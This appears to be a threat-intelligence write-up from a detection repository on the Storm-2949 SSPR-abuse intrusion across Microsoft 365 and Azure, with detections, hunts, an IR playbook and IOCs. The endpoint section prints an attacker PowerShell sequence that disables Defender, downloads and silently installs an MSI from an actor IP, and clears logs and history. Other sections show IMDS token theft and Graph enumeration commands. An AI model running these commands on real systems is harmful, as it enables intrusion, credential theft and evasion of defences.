

# Storm-2949 — From SSPR-Abused Identity to Cloud-Wide Breach across Microsoft 365 and Azure

## TL;DR

Storm-2949 is a financially motivated threat cluster Microsoft Threat
Intelligence disclosed on 18 May 2026 that compromised a customer's enterprise
without traditional malware. The operator abused **Self-Service Password Reset
(SSPR)** plus targeted vishing of IT staff and senior leadership to harvest
MFA prompts, then reset victim passwords, **stripped every existing
authentication method**, and enrolled their own Microsoft Authenticator as the
new method — locking legitimate users out and granting persistent identity
control. From that foothold they enumerated Entra ID via **Microsoft Graph
API** with a custom Python script, exfiltrated thousands of files from
OneDrive and SharePoint, then pivoted into Azure where they abused custom RBAC
roles to call **`microsoft.Web/sites/publishxml/action`** (publishing
profiles), **Key Vault access policy writes plus secret reads** (dozens of
secrets in four minutes), **`microsoft.sql/servers/firewallrules/write`** and
**`microsoft.Storage/storageAccounts/listkeys/action`** to bridge into
production data, and **VMAccess plus Run Command** to plant local
administrators and pull IMDS tokens. Final endpoint capability was
**ScreenConnect** deployed from `185.241.208.243`, with Defender Antivirus
disabled and Event Logs cleared. The case matters today because it is the
canonical 2026 example of *identity as the new perimeter*: no weaponised
payload, no custom implant, every primitive is a legitimate Azure ARM
operation or Entra ID feature invoked with valid credentials.

## Attribution and confidence

- **Cluster (vendor):** **Storm-2949** (Microsoft Threat Intelligence). The
  `Storm-` prefix means the cluster is in development — Microsoft has not yet
  attributed it to a country, a known affiliate ecosystem, or a graduated
  threat actor name.
- **Aliases / overlap:** none publicly tracked at disclosure.
- **Vendor discovery:** Microsoft Defender Security Research Team (Adi Segal,
  Karam Abu Hanna, Alon Marom) with contributions from Microsoft Threat
  Intelligence — blog post **"How Storm-2949 turned a compromised identity
  into a cloud-wide breach"**, **18 May 2026** (Microsoft Security Blog).
- **Confidence:**
  - **High** on attack mechanics — Microsoft observed and responded to the
    intrusion directly.
  - **Medium** on motivation (financial / data theft inferred from breadth of
    exfiltration without ransom or destruction).
  - **Low** on country-level attribution — explicitly a developing cluster.
- **Victimology:** undisclosed enterprise customer with a sizable Microsoft
  365 footprint (OneDrive, SharePoint, Exchange) and a production Azure
  estate spanning SaaS, PaaS (App Service, Key Vault, SQL), IaaS (Storage,
  Virtual Machines). The actor deliberately targeted **IT personnel and
  senior leadership** for initial access — consistent with a phishing scheme
  designed to lure high-privilege identities into completing SSPR-driven MFA
  prompts.
- **Genealogy with this repo:**
  - Complements **Day 9 (`2026-05-06_CodeOfConduct-AiTM-Storm-1747`)** as
    the other identity-only intrusion in the diary. Day 9 leveraged
    Evilginx-style AiTM to steal session cookies; today's case avoids any
    AiTM tooling and uses SSPR + vishing as the credential-theft primitive.
    Together they bracket the modern identity-compromise spectrum: proxy
    middleware vs. social engineering against a self-service feature.
  - Distinct from **Day 17 (Semantic Kernel CVE-2026-26030/25592)** which was
    framework-level RCE — today's case has *no CVE at all*, every operation
    is documented Azure surface used with valid privileged credentials.
  - Adds a first repo entry pairing **`T1556.006 Modify Authentication
    Process: MFA`** with **`T1098.005 Account Manipulation: Device
    Registration`** as a high-confidence SSPR-abuse signature for Defender
    for Identity.

## Kill chain — summary table

| Stage | MITRE | Detail |
|---|---|---|
| Reconnaissance | T1591.004 | LinkedIn / open-source profile mapping; deliberate selection of IT staff and senior leadership. |
| Initial Access | T1078.004, T1566.004 | Vishing impersonating IT support; actor initiates SSPR on behalf of the target; user approves MFA prompts believing it is a routine verification. |
| Persistence (identity) | T1556.006, T1098.005 | Actor resets password, removes all existing MFA methods (phone, email, prior Authenticator registrations), then enrolls Microsoft Authenticator on the actor-controlled device. |
| Discovery | T1087.004, T1526, T1580 | Microsoft Graph API enumeration of users, role assignments, applications, and service principals using a custom Python script and `curl`. |
| Persistence (cloud, attempted) | T1098.001 | Tried to add credentials to a service principal; failed due to insufficient permissions. Compromised three additional user accounts via the same SSPR + vishing playbook to expand foothold. |
| Collection / Exfiltration — M365 | T1530, T1213, T1567.002 | OneDrive web UI bulk download (thousands of files in a single action); SharePoint search focused on VPN configurations and remote access procedures. |
| Lateral Movement (cloud) | T1199, T1078.004 | Assumed custom Azure RBAC roles already granted to the compromised identities; pivoted into production Azure subscriptions. |
| Credential Access — App Service | T1552.001 | Invoked `microsoft.Web/sites/publishxml/action` against auxiliary web apps; retrieved publishing profiles containing FTP, Web Deploy, and Kudu credentials. |
| Credential Access — Key Vault | T1552.001, T1606 | Used the Owner role on a target Key Vault to modify access configuration, then read dozens of secrets (database connection strings, identity credentials) in a four-minute window. |
| Defense Evasion (cloud) | T1562.007 | `microsoft.sql/servers/firewallrules/write` to allow attacker source IP, then deleted the firewall rule post-exfiltration to remove evidence. |
| Collection / Exfiltration — Storage | T1530, T1552.005, T1606 | `microsoft.storage/storageaccounts/write` to open public access from a controlled IP set; `microsoft.Storage/storageAccounts/listkeys/action` returned SAS tokens and account keys; custom Python script using the Azure SDK pulled blobs from multiple accounts over multiple days. |
| Execution (VM) | T1059.001, T1651 | **VMAccess** extension deployed to create a new local administrator account on a target VM; **Run Command** invoked a PowerShell script that queried the Azure Instance Metadata Service (IMDS) for a managed-identity token and used it to attempt Key Vault secret retrieval (failed, identity lacked permissions). |
| Persistence (endpoint) | T1219, T1543.003 | ScreenConnect installed via Run Command from `185.241.208.243`; service renamed to resemble legitimate Windows components; files placed in masquerading locations. |
| Defense Evasion (endpoint) | T1562.001, T1070.001 | PowerShell script disabled Microsoft Defender Antivirus real-time protection and behavior monitoring; cleared Windows Event Logs; deleted command history and temporary files. |
| Credential Access (endpoint) | T1552.004 | Searched compromised hosts for `.pfx` certificate files (private keys); scanned mounted file shares for files containing password-related strings. |



Left lane shows the **victim identity / cloud** stages: vishing through SSPR,
MFA hijack and Authenticator re-enrollment, Graph API enumeration, M365 bulk
exfiltration, Azure RBAC pivot, App Service publishxml, Key Vault sweep, SQL
firewall manipulation, Storage account listkeys, and VMAccess plus Run
Command. Right lane shows the **operator infrastructure** — two egress IPs
(`176.123.4.44`, `91.208.197.87`) for identity and cloud-plane operations,
and the ScreenConnect instance at `185.241.208.243` for endpoint persistence.
The detection anchors box maps each cloud-plane operation
(`publishxml`, `keyvault/secrets/read`, `storageAccounts/listkeys`,
`firewallrules/write`, Run Command) to its Sigma, KQL, YARA, and Suricata
coverage, plus the identity anchors in Defender for Identity (Authenticator
device registration plus prior MFA method removal within a five-minute
window).

## Stage-by-stage detail

### Initial Access (T1078.004, T1566.004)

Storm-2949 initiated the **Self-Service Password Reset (SSPR)** flow against a
targeted user, then contacted that user by phone impersonating internal IT
support, claiming an urgent verification was required. The user approved the
"verification" MFA prompts believing they were part of a routine password
reset procedure. With those approvals the actor completed the SSPR flow and
obtained the ability to reset the password.

```text
Attacker -> Microsoft SSPR endpoint:      initiates password reset for victim@org.tld
Attacker -> victim (phone):               "Hi this is IT, we need to verify your account"
Victim   -> Microsoft Authenticator:      approves MFA push
Attacker -> Microsoft Authenticator MFA:  challenge satisfied
Attacker -> Microsoft SSPR endpoint:      sets new password
```

The operator selected IT personnel and senior leadership specifically — both
groups have privileged Entra ID and Azure RBAC role memberships that
accelerate later stages.

### Persistence — identity (T1556.006, T1098.005)

Immediately after reset, the actor removed every existing authentication
method on the account: registered phone numbers, registered email addresses,
prior Microsoft Authenticator device registrations. They were then prompted
to re-register an MFA method (because their fresh authentication had no MFA
binding) and enrolled **Microsoft Authenticator on the actor-controlled
device**. The legitimate user is now permanently locked out — the password
they remember is wrong, every alternate authentication contact has been
deleted, and any future SSPR or sign-in re-registration will use the
actor's device.

This single-session sequence — remove all prior MFA methods, register new
device, complete sign-in — is the highest-signal anchor for the case.

### Discovery (T1087.004, T1526, T1580)

Storm-2949 used a custom Python script issuing automated requests to the
**Microsoft Graph API** (and `curl` for ad-hoc queries) to enumerate users,
role assignments, applications, and service principals across the tenant. The
queries searched by name patterns and role attributes to identify privileged
identities and additional high-value targets.

```bash
# Representative Graph queries observed (paraphrased)
curl -H "Authorization: Bearer $TOKEN" \
  "https://graph.microsoft.com/v1.0/users?\$filter=startswith(displayName,'IT')"
curl -H "Authorization: Bearer $TOKEN" \
  "https://graph.microsoft.com/v1.0/directoryRoles/<roleId>/members"
curl -H "Authorization: Bearer $TOKEN" \
  "https://graph.microsoft.com/v1.0/servicePrincipals"
```

The actor expanded their foothold by compromising **three additional user
accounts** via the same SSPR + vishing playbook.

### Persistence (cloud, attempted) (T1098.001)

The operator attempted to add new credentials to a compromised service
principal in order to retain access independent of any specific user account.
The attempt **failed** due to insufficient permissions on that principal —
note that this failure mode is itself a high-signal anchor for hunting
("AddPasswordCredentials" / "AddKeyCredentials" failure events on a
service principal that does not normally receive credential updates).

### Collection and Exfiltration — Microsoft 365 (T1530, T1213, T1567.002)

Storm-2949 accessed OneDrive and SharePoint with the compromised user
credentials, then used the **OneDrive web interface to bulk-download
thousands of files in a single action**. SharePoint search was focused on
**IT documents covering VPN configurations and remote access procedures** —
consistent with intent to find lateral movement vectors from the cloud
identity into the on-premises endpoint estate.

```text
Pattern in CloudAppEvents / OfficeActivity:
  - FileDownloaded events: bursts of >100 unique files per minute per user
  - SearchQueryPerformed: "vpn", "remote access", "fortinet config"
  - Site browsed: SharePoint sites tagged "IT" / "Infrastructure"
```

### Lateral Movement (cloud) (T1199, T1078.004)

Multiple compromised identities held custom Azure RBAC roles on production
Azure subscriptions. Storm-2949 used these RBAC permissions to start operating
on Azure resources directly through the management plane, no separate Azure
sign-in step required because the same Entra ID identity authenticates both
M365 and Azure ARM.

### Credential Access — App Service (T1552.001)

The actor's primary target was a production Azure App Service web
application. Initial attempts failed because of gateway and network
restrictions. They pivoted to **auxiliary web apps in the same ecosystem**
(authentication frontends, internal APIs) and invoked the management-plane
operation **`microsoft.Web/sites/publishxml/action`** to retrieve each app's
**publishing profile**. A publishing profile commonly contains basic-auth
credentials for **FTP, Web Deploy, and the Kudu console** — Kudu is the
built-in admin interface that lets an authenticated user browse the file
system, inspect environment variables, and execute commands in the app's
context.

```http
POST https://management.azure.com/subscriptions/{sub}/resourceGroups/{rg}/
     providers/Microsoft.Web/sites/{site}/publishxml?api-version=2024-04-01
Authorization: Bearer {token}
```

The auxiliary apps did not contain the high-value data the actor wanted, but
they delivered visibility into application configuration and infrastructure.

### Credential Access — Key Vault (T1552.001, T1606)

The actor pivoted to the **Azure Key Vault estate**. One compromised
identity held the **Owner role** over a Key Vault that contained credentials
linked to the production application. Storm-2949 modified the Key Vault
access configuration (access policy or RBAC role assignment) to allow secret
reads, then **read dozens of secrets within a four-minute window**.

```text
Sequence in AzureActivity / CloudAuditEvents:
  T+00:00  microsoft.keyvault/vaults/accesspolicies/write
  T+00:12  microsoft.keyvault/vaults/secrets/read      (secret 1)
  T+00:15  microsoft.keyvault/vaults/secrets/read      (secret 2)
  ...
  T+03:47  microsoft.keyvault/vaults/secrets/read      (secret N)
```

Among these secrets the actor found credentials that enabled authentication
into the primary production web app. After login they changed the app's
password to retain control and began exfiltrating sensitive data.

### Defense Evasion (cloud) (T1562.007)

Storm-2949 connected to the Azure SQL server using credentials extracted from
the Key Vault. To enable the connection they manipulated the SQL firewall:

```text
microsoft.sql/servers/firewallrules/write   -> allow 176.123.4.44
... data exfil ...
microsoft.sql/servers/firewallrules/delete  -> remove rule
```

Deleting the rule post-exfiltration is the defense evasion anchor — it leaves
a *negative* trace in the ARM audit log that, paradoxically, is the most
reliable evidence of attacker activity.

### Collection and Exfiltration — Storage (T1530, T1552.005, T1606)

Storm-2949 manipulated storage account network access to allow public access
from an attacker-controlled IP set:

```text
microsoft.storage/storageaccounts/write   -> network ACL update
microsoft.Storage/storageAccounts/listkeys/action  -> returns key1, key2
                                                     and SAS tokens
```

Using the returned keys and SAS tokens, the actor downloaded large volumes of
data via a **custom Python script using the Azure SDK for Storage** that
enumerated and downloaded blobs to the actor's endpoint. Exfiltration ran for
multiple days; the operator alternated between SAS-based and OAuth-based
authentication as access conditions evolved.

### Execution (VM) — VMAccess and Run Command (T1059.001, T1651)

In parallel, Storm-2949 attempted to compromise virtual machines:

```text
Step 1: VMAccess extension -> create new local admin (e.g. "svc-azure-admin")
Step 2: Run Command -> PowerShell script that queries IMDS:
        curl -H "Metadata:true" \
          "http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://vault.azure.net"
Step 3: Use returned token to call Key Vault REST API
        (failed in this case because managed identity lacked permissions —
         still left clean control-plane evidence)
```

This sequence — **VMAccess to create a local administrator + Run Command to
pull IMDS token** — is the signature lateral primitive of this case and a
durable detection target for any cloud-conscious SOC.

### Persistence (endpoint) — ScreenConnect (T1219, T1543.003)

Run Command also delivered a PowerShell script that installed **ScreenConnect
RMM** from attacker-controlled infrastructure. The installer was made to look
like a trusted software update; files were placed in locations resembling
legitimate Windows content; the installed service was renamed to match
Windows-component naming conventions.

```powershell
# Representative defense-evasion sequence
Set-MpPreference -DisableRealtimeMonitoring $true
Set-MpPreference -DisableBehaviorMonitoring $true
Stop-Service -Name WinDefend -Force
Invoke-WebRequest -Uri "https://185.241.208.243/connectwise.msi" -OutFile $env:TEMP\update.msi
msiexec /i $env:TEMP\update.msi /quiet
sc.exe config <ConnectWiseControl> displayname= "Windows Telemetry Service"
wevtutil cl Security; wevtutil cl System; wevtutil cl Application
Remove-Item (Get-PSReadlineOption).HistorySavePath -Force
Remove-Item $env:TEMP\* -Recurse -Force
```

### Credential Access (endpoint) (T1552.004)

Over ScreenConnect the operator ran discovery on each host (OS, configuration,
domain context, user and group enumeration), then focused on credential
collection: exfiltration of **`.pfx` certificate files** (which may contain
private keys reusable elsewhere) and grepping mounted file shares for files
containing password-related strings.

## Detection strategy

### Telemetry that matters

- **Identity:** Entra ID `auditLogs` (categories `UserManagement`,
  `AuthenticationMethods`, `DeviceManagement`); Entra ID `signInLogs`
  (sign-ins with `riskState != none`, sign-ins from new IPs/UAs to recently
  password-reset accounts).
- **Microsoft Defender XDR:** `IdentityLogonEvents`, `IdentityInfo`,
  `IdentityDirectoryEvents`, `CloudAuditEvents`, `CloudAppEvents`,
  `DeviceProcessEvents`, `DeviceFileEvents`, `DeviceNetworkEvents`,
  `EmailEvents`.
- **Sentinel:** `AzureActivity` (ARM audit), `SigninLogs`, `AuditLogs`,
  `OfficeActivity` (SharePoint / OneDrive), `AzureDiagnostics` (Key Vault
  `AuditEvent`), `StorageBlobLogs`, `SQLSecurityAuditEvents`.
- **Endpoint:** Sysmon EID 1 (`ProcessCreate` for `powershell.exe` parented
  by `WindowsAzureGuestAgent.exe`), EID 11 (`FileCreate` for ScreenConnect
  binaries), EID 13 (`RegistryValueSet` for tamper of Defender preferences),
  EID 22 (DNS to actor IPs).
- **Key Vault:** ensure **diagnostic logs** enabled and retained at least
  one year (Microsoft hardening guidance); without these the
  `accesspolicies/write` plus secret-read burst is invisible.

### Detection coverage

| Engine | File | Logic |
|---|---|---|
| Sigma | `sigma/storm2949_run_command_imds_token_request.yml` | PowerShell child of `WindowsAzureGuestAgent.exe` requesting IMDS managed-identity token |
| Sigma | `sigma/storm2949_authenticator_rebind_after_mfa_strip.yml` | Defender for Identity / Entra audit pattern: removal of prior MFA methods plus Microsoft Authenticator registration within a short window on the same principal |
| Sigma | `sigma/storm2949_defender_av_tamper_via_run_command.yml` | PowerShell child of `WindowsAzureGuestAgent.exe` disabling Defender real-time or behavior monitoring via `Set-MpPreference` |
| KQL | `kql/storm2949_arm_publishxml_keyvault_storage_chain.kql` | Burst of `publishxml`, Key Vault access-policy write, secret reads, and Storage `listkeys` by the same caller within a thirty-minute window |
| KQL | `kql/storm2949_sspr_mfa_strip_rebind_chain.kql` | Entra `AuditLogs` join: SSPR success + authentication-method removal + new Authenticator registration on the same user within five minutes |
| KQL | `kql/storm2949_onedrive_bulk_download_then_arm_pivot.kql` | OneDrive / SharePoint mass file download immediately followed by `microsoft.web/sites/publishxml/action` or `microsoft.storage/storageaccounts/listkeys/action` by the same identity within sixty minutes |
| YARA | `yara/storm2949_screenconnect_masquerade.yar` | ScreenConnect binary heuristic combining MSI / PE anchors, ConnectWise vendor strings, and service-rename masquerade patterns observed in this case |
| Suricata | `suricata/storm2949_actor_infra.rules` | Egress (any port) to attacker IPs `176.123.4.44`, `91.208.197.87`, and `185.241.208.243`, plus IMDS REST anchor from suspicious source ports |

### Threat hunting hypotheses

- **H1 — SSPR + MFA-strip + Authenticator-rebind chain:** a user completes
  SSPR, then all prior MFA methods are removed, and a new Microsoft
  Authenticator device is registered within five minutes — see
  [hunts/peak_h1_sspr_mfa_strip_rebind.md](./hunts/peak_h1_sspr_mfa_strip_rebind.md).
- **H2 — ARM control-plane burst (`publishxml` → Key Vault → `listkeys`)**: a
  single caller executes the publishing-profile read, Key Vault access-policy
  write, secret reads, and Storage account key listing within thirty minutes —
  see [hunts/peak_h2_arm_credential_burst.md](./hunts/peak_h2_arm_credential_burst.md).
- **H3 — VMAccess + Run Command + IMDS token request:** a VM receives a
  VMAccess extension invocation creating a new local administrator, followed
  by a Run Command issuing an IMDS token request — see
  [hunts/peak_h3_vmaccess_runcommand_imds.md](./hunts/peak_h3_vmaccess_runcommand_imds.md).

## Incident response playbook

### First 60 minutes (triage)

1. **Identify the blast radius in identity.** Query Entra `auditLogs` for
   `activityDisplayName == "Update authentication methods"` joined with
   `Reset password (self-service)` across the last 72 hours. Enumerate any
   principal where authentication methods were removed and a new device was
   registered within a five-minute window.
2. **Snapshot Entra `signInLogs`** for those principals — capture all source
   IPs, user agents, conditional-access decisions, and risk states for the
   last 30 days. This is the only reliable evidence of attacker session
   foothold once tokens get invalidated.
3. **Invalidate sessions properly.** For each compromised principal:
   - Revoke all refresh tokens (`Revoke-MgUserSignInSession` /
     `revokeSignInSessions` Graph endpoint).
   - **Force re-registration of MFA** with phishing-resistant strength
     (FIDO2/passkey) before re-enabling sign-in.
   - Reset password.
   - **Do not re-enable SSPR for the principal** until a manual approval
     workflow has been verified.
4. **Audit Azure RBAC role assignments** for the compromised principals.
   Remove any assignment not justified by current job role. Specifically
   audit `Owner`, `Contributor`, `Key Vault Administrator`, `Storage Account
   Contributor`, `Website Contributor` on production subscriptions.
5. **Snapshot ARM activity** by the compromised callers across last 90 days
   with `AzureActivity | where caller == "<upn>"`. Tag any of the operations
   listed in IOCs.
6. **Rotate every secret** read out of Key Vault during the suspected
   exposure window. **Regenerate both Storage account keys** to invalidate
   all pre-existing SAS tokens (rotating only one key leaves SAS tokens
   signed with the other key still valid).
7. **Snapshot VMs** that received `VMAccess` or `Run Command` invocations
   during the window. Capture memory before reboot. Preserve event logs and
   AMSI / PowerShell transcripts before any host-level cleanup.

### Artifacts to collect

| Artifact | Path / source | Tool | Why it matters |
|---|---|---|---|
| Entra ID audit logs | Tenant `auditLogs` (Graph or Sentinel) | Sentinel KQL / Microsoft Graph PowerShell | Authoritative trail of SSPR, MFA method changes, device registrations |
| Entra ID sign-in logs | Tenant `signInLogs` | Sentinel KQL | Source IPs, UAs, CA decisions for attacker sessions |
| Azure activity (ARM) | Subscription `AzureActivity` | Sentinel KQL / `az monitor activity-log list` | publishxml, accesspolicies/write, secrets/read, listkeys, firewallrules/write/delete |
| Key Vault diagnostic logs | Key Vault `AuditEvent` (Log Analytics) | Sentinel KQL | Per-secret read events, caller identity, IP |
| Storage account logs | `StorageBlobLogs` | Sentinel KQL | Blob downloads attributed to SAS / account key auth |
| SQL audit logs | `SQLSecurityAuditEvents` | Sentinel KQL | Query patterns from attacker IP during firewall-open window |
| VM extension status | Azure portal → VM → Extensions; `az vm extension list` | Azure CLI | VMAccess invocations and Run Command history |
| VM memory image | `/proc/kcore` equivalent (Windows: hibernation file, crashdump, live memory) | Comae / WinPMem / Velociraptor | Pre-reboot memory for IMDS token theft analysis |
| Windows Event Logs | `Security`, `System`, `Application`, `Microsoft-Windows-PowerShell/Operational` | Velociraptor / KAPE / EvtxECmd | If cleared, recover from VSS, RAM, or SIEM forwarding |
| ScreenConnect installation footprint | `%ProgramData%\ScreenConnect Client (*)`, `C:\Program Files (x86)\ScreenConnect Client (*)`, registered service | Velociraptor / KAPE | Confirm ScreenConnect presence even after service rename |
| `.pfx` exfil hunt | File-system search for `*.pfx`, `*.pem`, `id_rsa*` | Velociraptor `Windows.Search.FileFinder` | Identify which keys were exposed and need re-issuance |

### IR queries and commands

```powershell
# Revoke all sessions for a compromised principal
Connect-MgGraph -Scopes "User.RevokeSessions.All"
Revoke-MgUserSignInSession -UserId "victim@org.tld"
# Reset password
Set-MgUserPassword -UserId "victim@org.tld" -PasswordProfile @{
    Password = "<long-random>"
    ForceChangePasswordNextSignIn = $true
}
# List recent VMAccess invocations on a subscription
Get-AzLog -StartTime (Get-Date).AddDays(-7) `
  | Where-Object { $_.Authorization.Action -like "*VirtualMachines/extensions/write*" `
                   -and $_.ResourceId -like "*VMAccessAgent*" }
```

```bash
# Inventory all Storage account access via account keys in last 30 days
az monitor activity-log list \
  --offset 30d \
  --query "[?contains(authorization.action, 'storageAccounts/listKeys/action')].{caller:caller, ip:callerIpAddress, time:eventTimestamp, resource:resourceId}" \
  --output table

# Regenerate both storage account keys (invalidates all prior SAS)
az storage account keys renew --account-name <name> --key key1
az storage account keys renew --account-name <name> --key key2
```

```kql
// Entra ID — find SSPR + MFA method removal + Authenticator rebind on the same user within 5 minutes
AuditLogs
| where TimeGenerated > ago(7d)
| where Category in ("UserManagement", "AuthenticationMethods")
| extend Target = tostring(TargetResources[0].userPrincipalName)
| where ActivityDisplayName in (
    "Reset password (self-service)",
    "Delete authentication phone",
    "Delete authentication email",
    "Delete Microsoft Authenticator app",
    "Register Microsoft Authenticator app")
| summarize Actions = make_set(ActivityDisplayName), Count = count(),
            FirstSeen = min(TimeGenerated), LastSeen = max(TimeGenerated)
        by Target, bin(TimeGenerated, 5m)
| where Count >= 3
        and Actions has_any (dynamic(["Delete authentication phone","Delete authentication email","Delete Microsoft Authenticator app"]))
        and Actions has "Register Microsoft Authenticator app"
```

### Containment, eradication, recovery

- **Containment:** disable affected principals; revoke all sessions; remove
  Microsoft Authenticator device registrations not approved by the user
  out-of-band; freeze affected service principals; block actor IPs at the
  perimeter and at Conditional Access.
- **Eradication:** rotate every Key Vault secret read during the window;
  regenerate both Storage account keys; rotate all SQL server admin
  credentials; remove all VMAccess-created local admins from affected VMs;
  uninstall ScreenConnect; re-image VMs that ran defender-tamper scripts.
- **What NOT to do:**
  - Do **not** disable only the user account without also revoking refresh
    tokens — refresh tokens persist after disable and after password reset.
  - Do **not** rotate one Storage key — SAS tokens signed with the other key
    remain valid until natural expiry.
  - Do **not** clear Entra audit logs as part of cleanup — they are the
    primary evidence.
  - Do **not** rely on default Key Vault audit retention (90 days) — extend
    to one year *before* an incident, not after.
- **Recovery validation:**
  - All affected principals re-onboarded with phishing-resistant MFA
    (FIDO2 / Windows Hello / passkey) and Conditional Access requiring
    compliant device.
  - SSPR re-enabled only with a high-assurance verification flow (manager
    approval or hardware-bound proof) for high-privilege roles.
  - 30-day clean sweep: no ARM activity from compromised principals to
    attacker IPs; no IMDS token request anomalies from Run Command; no new
    Authenticator registrations without HR ticket correlation.

### Recovery validation

- Defender for Identity: zero `Suspicious addition of default third-party MFA
  method to user account` alerts on affected principals for 30 days.
- Sentinel: zero matches on the SSPR + strip + rebind KQL on affected
  principals for 30 days.
- Azure activity: ARM operations on production subscriptions by previously
  compromised principals limited to the role assignments justified by HR.
- Key Vault and Storage: secret/key rotation completed and verified in
  diagnostic logs; pre-rotation SAS tokens documented as known-revoked.

## IOCs

| Type | Value | Context | Confidence | Source |
|---|---|---|---|---|
| ipv4 | 176.123.4.44 | Attacker egress IP during identity and M365 phases | high | Microsoft Security Blog 2026-05-18 |
| ipv4 | 91.208.197.87 | Attacker egress IP (alternated with 176.123.4.44) | high | Microsoft Security Blog 2026-05-18 |
| ipv4 | 185.241.208.243 | ScreenConnect instance used by Storm-2949 | high | Microsoft Security Blog 2026-05-18 |
| note | microsoft.Web/sites/publishxml/action | ARM operation anchor — returns App Service publishing profile with Kudu/FTP/Web Deploy creds | high | Microsoft Security Blog 2026-05-18 |
| note | microsoft.keyvault/vaults/accesspolicies/write | ARM operation anchor — access policy or RBAC pre-condition for secret bulk read | high | Microsoft Security Blog 2026-05-18 |
| note | microsoft.keyvault/vaults/secrets/read (burst) | Per-secret read events — burst of dozens in <5 minutes is the high-confidence signature | high | Microsoft Security Blog 2026-05-18 |
| note | microsoft.Storage/storageAccounts/listkeys/action | ARM operation anchor — returns account keys plus SAS tokens; rotate BOTH keys to invalidate SAS | high | Microsoft Security Blog 2026-05-18 |
| note | microsoft.storage/storageaccounts/write (network ACL) | ARM operation anchor — used to open public access for attacker IP set | high | Microsoft Security Blog 2026-05-18 |
| note | microsoft.sql/servers/firewallrules/write then /delete | ARM operation anchor — defense-evasion pattern (open then close firewall) | high | Microsoft Security Blog 2026-05-18 |
| note | VMAccess extension creating new local admin | Azure VM extension abuse — creates host-level admin via control plane | high | Microsoft Security Blog 2026-05-18 |
| note | Run Command requesting IMDS token | PowerShell child of WindowsAzureGuestAgent.exe hitting 169.254.169.254 | high | Microsoft Security Blog 2026-05-18 |
| string | curl -H "Metadata:true" 169.254.169.254/metadata/identity/oauth2/token | Canonical IMDS managed-identity token request shape | medium | Microsoft Security Blog 2026-05-18 |
| string | Set-MpPreference -DisableRealtimeMonitoring | Defender Antivirus tamper anchor inside Run Command scripts | medium | Microsoft Security Blog 2026-05-18 |
| path | %ProgramData%\ScreenConnect Client (*) | ScreenConnect installation footprint (default) — still present even after service rename | medium | Microsoft Security Blog 2026-05-18 |
| note | wevtutil cl Security / System / Application | Defense-evasion event-log clearing observed at end of script | medium | Microsoft Security Blog 2026-05-18 |

Full set in [iocs.csv](./iocs.csv).

## Secondary findings

- **Microsoft disrupts Fox Tempest malware-signing-as-a-service**
  (Microsoft Security Blog and Microsoft On The Issues, **19 May 2026**).
  Fox Tempest issued over 1 000 short-lived (72-hour) Microsoft Artifact
  Signing certificates and hosted hundreds of Azure tenants plus operator
  VMs on Cloudzy infrastructure. Customers included Vanilla Tempest and
  Storm groups for ransomware distribution. Microsoft revoked the
  certificates, took ScreenConnect-style operator VMs offline, and unsealed
  a court order (US District Court SDNY) seizing `signspace[.]cloud`.
  Reinforces the Day 22 lesson that code-signature trust must be validated
  against issuance posture, not just chain-of-trust validity.
- **CISA KEV adds CVE-2026-20182 (Cisco Catalyst SD-WAN Controller auth
  bypass, CVSS 10.0)** (CISA, **14 May 2026**). The same authentication
  bypass covered in `days/2026-05-16_Cisco-SDWAN-vHub-AuthBypass-UAT8616/`
  is now confirmed in-the-wild and on the KEV catalog with FCEB remediation
  deadline. Detection coverage already in this repo applies unchanged.
- **Microsoft Patch Tuesday May 2026 — 120+ vulnerabilities including 29
  critical RCE** (Cyber Security News, **13 May 2026**). Includes DNS and
  Netlogon RCE flaws that materially raise the patching priority for
  Windows Servers and Domain Controllers in the same blast radius as the
  Storm-2949 cloud-to-endpoint pivot (Run Command, VMAccess) — patch
  Domain Controllers within 14 days of release per Microsoft guidance.

## Pedagogical anchors

- **Identity is the new perimeter — the entire Storm-2949 cloud-plane
  attack chain uses zero CVEs.** Every primitive (`publishxml`,
  `accesspolicies/write`, `secrets/read`, `listkeys`, VMAccess, Run
  Command) is a documented Azure feature. Detection has to live in
  `CloudAuditEvents` / `AzureActivity` / Key Vault diagnostic logs, not in
  EDR.
- **SSPR is a credential-theft primitive when paired with vishing and any
  non-phishing-resistant MFA method.** The structural mitigation is
  FIDO2 / passkeys for *every* identity that can reach SSPR, plus
  Conditional Access that constrains SSPR to compliant devices on
  corporate network.
- **The "remove all MFA methods + register new device within 5 minutes"
  pattern is the highest-confidence Storm-2949 anchor.** It is also the
  highest-confidence anchor for *any* identity takeover that traverses
  SSPR — bake it into Defender for Identity and Sentinel as a hard alert
  with on-call paging.
- **Run Command parented by `WindowsAzureGuestAgent.exe` is a one-line
  hunt for cloud-to-host pivot.** Inventory it organisation-wide;
  exceptions should be named (automation runbooks, Update Management),
  everything else is investigation.
